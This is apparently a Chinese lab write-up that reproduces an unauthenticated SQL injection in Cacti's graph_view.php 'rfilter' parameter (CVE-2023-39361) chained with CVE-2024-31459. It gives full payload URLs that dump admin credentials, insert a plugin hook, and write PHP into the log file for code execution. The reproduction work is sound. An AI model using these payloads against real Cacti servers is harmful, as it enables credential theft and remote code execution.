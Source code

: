 # Cacti graph_view.php SQL 注入导致远程代码执行漏洞 CVE-2023-39361&CVE-2024-31459

## 漏洞描述

Cacti 是一个全面的网络图形化解决方案，旨在利用 RRDTool 的数据存储和图形功能，为网络管理员提供直观的界面来监控和分析网络性能数据。

在 Cacti 1.2.24 版本中，graph_view.php 文件存在一个严重的漏洞，当启用 guest 用户时，未经任何身份验证的攻击者通过 'rfilter' 参数即可执行 SQL 注入攻击，最终可能导致远程代码执行。

参考链接：

- https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg
- https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv

## 漏洞影响

```
[CVE-2023-39361] Cacti 1.2.24
[CVE-2024-31459] Cacti <= 1.2.26
```

## 环境搭建

Vulhub 执行以下命令启动 Cacti 1.2.24 服务器：

```
docker compose up -d
```

服务器启动后，访问 `http://your-ip:8080` 进入 Cacti 界面。默认凭据为 admin/admin。

请以管理员身份登录并按照初始化说明进行操作。只需重复点击 " 下一步 " 按钮，直到看到成功页面。

该漏洞如果需要未认证利用，必须启用 guest 用户。你可以以管理员身份登录，导航至 `Configuration -> Authentication` 页面，并启用 guest 用户：

![](images/Cacti%20graph_view.php%20SQL注入导致远程代码执行漏洞%20CVE-2023-39361&CVE-2024-31459/image-20250331153127336.png)

## 漏洞复现

该漏洞位于 `graph_view.php` 文件中的 `grow_right_pane_tree` 函数内。当 action 参数设置为 'tree_content' 时，用户输入的 rfilter 参数由 `html_validate_tree_vars` 函数验证。然而，这种验证仅确保输入是有效的正则表达式，无法防止 SQL 注入。

要利用此漏洞，向 graph_view.php 端点发送带有以下参数的请求：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

可见，数据库信息和管理员账号密码已被爆出：

![](images/Cacti%20graph_view.php%20SQL注入导致远程代码执行漏洞%20CVE-2023-39361&CVE-2024-31459/image-20250331153525693.png)

由于 Cacti 支持堆叠查询，你可以利用此漏洞结合 [CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv) 实现本地文件包含。

首先，添加一个指向 `log/cacti.log` 文件的新插件钩子：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

然后，利用报错 SQL 注入，将 PHP 代码写入 `log/cacti.log` 文件：

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

此时，访问登录页面时，PHPINFO 函数将执行并显示：

![](images/Cacti%20graph_view.php%20SQL注入导致远程代码执行漏洞%20CVE-2023-39361&CVE-2024-31459/image-20250331153742744.png)

## 漏洞修复

- 升级至修复版本。
